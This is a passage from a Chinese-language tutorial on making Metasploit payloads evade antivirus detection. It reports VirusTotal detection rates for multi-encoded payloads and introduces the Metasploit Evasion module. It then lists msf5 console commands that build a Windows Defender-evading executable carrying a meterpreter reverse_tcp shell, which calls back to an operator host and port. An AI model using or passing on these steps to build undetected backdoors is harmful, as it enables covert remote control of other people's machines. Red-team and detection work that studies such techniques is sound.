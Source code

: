 在`virustotal.com`上查杀率为45/70，编码多了，免杀率居然降低了。。。尴尬。。。

![26658efc61aaa3d811babfcdad6bbdb9](images/2020.02-bypass-01/8.png)

经过测试，发现使用的编码类型越多，免杀率可能会降低，猜测是因为各种编码引入了更多的特征码。同时生成的payload也很可能无法正常执行，这个也和被捆绑程序有一定关联。

## 7.6 Evasion模块免杀(VT免杀率12-71)

操作便利★★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/YnnCM7W20xScv52k_ubxYQ](https://mp.weixin.qq.com/s/YnnCM7W20xScv52k_ubxYQ)

2019年1月，metasploit升级到了5.0，引入了一个新的模块叫Evasion模块，官方宣称这个模块可以创建反杀毒软件的木马。

evasion有以下几个模块,可以使用`show evasion`进行查看。


使用`use windows/windows_defender_exe`进行生成payload

```
msf5 > use windows/windows_defender_exe
msf5 evasion(windows/windows_defender_exe) > set filename payload.exe
msf5 evasion(windows/windows_defender_exe) > set payload windows/meterpreter/reverse_tcp
msf5 evasion(windows/windows_defender_exe) > set LHOST 10.211.55.3
msf5 evasion(windows/windows_defender_exe) > set LPORT 3333
msf5 evasion(windows/windows_defender_exe) > run
```
